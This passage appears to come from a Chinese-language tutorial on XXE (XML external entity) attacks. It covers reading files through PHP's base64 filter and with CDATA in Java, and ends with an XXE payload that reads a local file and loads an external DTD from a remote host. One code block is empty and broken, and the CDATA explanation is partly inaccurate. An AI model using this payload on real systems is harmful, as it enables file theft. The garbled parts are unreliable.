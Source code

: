 如果目标环境是PHP的，这个时候就可以使用PHP协议，用base64编码去读取

```php
 ]>
```

![image.png](assets/1700812438-057dc3c6a357ca2d39bb3a056afac653.png)

在Java环境中，我们可以使用CDATA来读取包含特殊字符的文本数据，避免XML解析器对其进行解析。

CDATA部分用于包含可能会被XML解析器误解为标记的文本。比如，一段文本中包含"<"或"&"等字符，这些字符在XML中具有特殊含义，如果直接包含在XML文档中可能会导致解析错误。使用CDATA部分可以避免这种问题，因为CDATA部分中的所有内容都会被XML解析器忽略。

在Java中，我们可以使用以下方式将文本数据包含在CDATA部分中：

```php
String data = "<![CDATA[这里是文本数据]]>";
```

在这个例子中，"这里是文本数据"是包含在CDATA部分中的文本数据。当这段文本数据被XML解析器解析时，解析器会忽略CDATA部分，只将其中的内容当作普通的文本数据处理。

使用CDATA部分是一种在XML文档中包含特殊字符文本的有效方式。同时，在Java环境中，我们也可以利用这个特性来读取和处理这类文本数据。

**payload:**

```php
<?xml version="1.0" encoding="utf-8"?> 
   
<!ENTITY % goodies SYSTEM "file:///d:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/1.dtd"> 
%dtd; ]> 

<roottag>&all;</roottag>
```
